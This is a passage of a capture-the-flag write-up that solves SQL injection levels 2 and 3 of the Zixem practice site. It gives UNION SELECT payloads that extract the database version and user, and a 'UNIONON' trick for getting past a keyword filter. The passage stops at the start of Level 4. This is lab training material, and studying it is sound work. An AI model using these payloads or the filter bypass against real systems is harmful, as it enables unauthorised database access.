 + It is Done. Let's grep the *version()* & *user()*:  
+ ***PAYLOAD***: `4 AND 1=2' UNION SELECT version(),user(),3,4--'`  
##### Result: #####  
+ `https://zixem.altervista.org/SQLi/level2.php?showprofile=4%20AND%201=2%27%20UNION%20SELECT%20version(),user(),3,4--%27`
> - **User-ID:** 5.6.33-log
> - **Username:** zixem@localhost
> - **Age:** 3

**Bazinga!**  
###### END - Back to [Reference Tables](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi/SQLi.md#reference-table) ######

===========================================================================================================  

## [Level 3](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi/SQLi.md#level-3)
Start:  
[https://zixem.altervista.org/SQLi/level3.php?item=3](https://zixem.altervista.org/SQLi/level3.php?item=3)  
> - **ItemID:** 3
> - **Item Name:** Laptop
> - **Seller:** Team Digi7al

+ Test with prev Payload:  
+ ***PAYLOAD***: `3 AND 1=2' UNION SELECT version(),user(),3,4--'`  
+ `https://zixem.altervista.org/SQLi/level3.php?item=3%20AND%201=2%27%20UNION%20SELECT%20version(),user(),3,4--%27`
> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'uni select version(),user(),3,4--''' at line 1

+ The error message tells us that the statement is being interpreted as `"uni select version(),user(),3,4--''"`, which means that the `on` of union is being filtered out. To combat this, we can add another `on`, so that even after it is removed, the statement still reads union:  
+ ***PAYLOAD***: `3 AND 1=2' UNIONON SELECT version(),user(),3,4--'`  
##### Result: #####  
+ `https://zixem.altervista.org/SQLi/level3.php?item=3%20AND%201=2%27%20UNIONON%20SELECT%20version(),user(),3,4--%27`
> - **ItemID:** 5.6.33-log
> - **Item Name:** zixem@localhost
> - **Seller:** 3

**Bazinga!**  
###### END - Back to [Reference Tables](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi/SQLi.md#reference-table) ######

===========================================================================================================  

## [Level 4](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi/SQLi.md#level-4)
Start:  
[https://zixem.altervista.org/SQLi/level4.php?ebookid=7](https://zixem.altervista.org/SQLi/level4.php?ebookid=7)  
> - **eBook ID:**   7
> - **Name:**       Secrets of Web
> - **Writer:**     Team Digi7al
> - **Price:**      40$
